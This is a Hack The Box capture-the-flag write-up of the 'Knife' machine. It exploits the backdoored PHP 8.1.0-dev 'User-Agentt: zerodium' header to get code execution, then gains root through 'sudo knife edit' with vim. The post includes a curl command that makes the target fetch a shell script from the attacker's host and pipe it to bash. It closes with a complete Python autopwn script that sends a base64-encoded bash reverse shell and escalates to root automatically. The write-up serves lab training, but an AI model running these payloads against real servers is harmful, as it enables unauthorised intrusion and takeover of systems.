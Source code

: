 ```yaml
---
title: Knife Writeup [HTB]
tags: [HackTheBox, php]
image: /assets/images/knife/knife.png
published: true
banner: true
---
```


Knife is a linux based machine that was active since May 22th of 2021 to August 28th, on this machine we will get code execution through a backdoor that was left on the PHP repository, and escalate privileges due to an executable that allows us to set our editor for editing files, so we set vim and spawn a shell.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.242
nmap -sC -sV -p 22,80, -Pn -o scan.txt 10.10.10.242

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  1 14:22:16 2021 -- 1 IP address (1 host up) scanned in 13.13 seconds
```

We only find SSH and HTTP running, so we visite the webpage.

![](/assets/images/knife/website.png)

It looks like a site related to health, if we run `whatweb` we find something interesting.

![](/assets/images/knife/whatweb.png)

The site uses PHP 8.1.0-**dev**, why it would use a development version?

# [](#header-1)Gaining Access

If you were up to date with the news probably you heard about this, someone left a backdoor inside the PHP repository, [here](https://unaaldia.hispasec.com/2021/03/detectada-una-puerta-trasera-en-el-repositorio-oficial-de-php.html) an article in spanish, so the backdoor works by adding the header "User-Agentt" (yes, with double "t"), and start with "zerodium", after "zerodium" string everything will be executed by php, so we test to run id command.

![](/assets/images/knife/bdtest.png)

As we see we get back the output of the command, so we can execute a reverse shell command (we could also get the id_rsa key of james, but it's password protected, and since the server is running under james there is no difference), so we start a http server with python, and serve a bash reverse shell) so we run `curl -s http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem("curl 10.10.16.34:8000/shell.sh | bash");'`, and we get a shell as james and retrieve user.txt.

![](/assets/images/knife/shell.png)

# [](#header-1)Privilege Escalation

Checking if we can execute anything with sudo we see that we can run knife as root.

![](/assets/images/knife/sudo.png)

We check the help of the command and something quickly calls our attetion, we can specify the editor that we want to use on certain commands.

![](/assets/images/knife/knife.png)

There is also a [link](https://docs.chef.io/workstation/knife/) to the documentation of the tool, then we run `sudo knife list` to see what we have available, we see /members.json, so let's try to edit it and set vim as our editor, then we can execute a shell with vim and finish with the machine: `sudo knife edit /members.json -e vim`.

![](/assets/images/knife/root.png)

# [](#header-1)Autopwn

Since the machine was really short I decided to write an autopwn for it, it uses the backdoor to spawn a reverse shell, and uses vim to escalate the privileges.

```python
#!/usr/bin/env python3

from pwn import *
import base64
import sys
import signal
import requests
import time
import threading

def def_handler(sig, fram):
    print ("Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 3:
    print ("Print please provide the IP of the target machine and the local machine")
    print ("Example usage: python3 autopwn.py 10.10.10.242 10.10.16.250")
    sys.exit(1)

ip = sys.argv[1]
local = sys.argv[2]
rev_shell = 'bash -i >& /dev/tcp/' + local + '/54321 0>&1'
encoded = base64.b64encode(rev_shell.encode("utf-8")).decode("utf-8")
p1 = log.progress("Pwning")

def log_mess(mess):
    p1.status(mess)
    time.sleep(1)
    
def spawn_shell():
    time.sleep(2)
    try:
        requests.get("http://" + ip, headers={'User-Agentt': f'zerodiumsystem("echo -n {encoded}|base64 -d|bash");'},timeout=2)
    except requests.exceptions.ReadTimeout:
        pass

log_mess("Executing reverse shell")
threading.Thread(target=spawn_shell).start()
rem = listen(54321,timeout=10)
rem.recv(1024)

log_mess("Getting user flag")
rem.send("cat /home/james/user.txt \n")
time.sleep(1)
log.success("User flag: " + rem.recv(1024).decode('utf-8').split("\n")[2])

log_mess("Escalating privileges")
rem.send("sudo knife edit /members.json -e vim\n")
time.sleep(5)
rem.recv(1024)
rem.send(":set shell=/bin/bash\n")
time.sleep(1)
rem.recv(1024)
rem.send(":shell\n")
time.sleep(1)
rem.recv(1024)
rem.send("id\n")
time.sleep(1)
log.success("We are root: " + rem.recv(1024).decode('utf-8').strip())

log_mess("Getting root flag")
rem.send("cat /root/root.txt\n")
time.sleep(1)
log.success( "Root flag: " + rem.recv(1024).decode('utf-8').strip())

p1.success("Machine owned!!")
rem.send("script -qc /bin/bash /dev/null\n")
rem.recv(1024)
rem.interactive(prompt=None)
rem.close()
```

![](/assets/images/knife/autopwn.gif)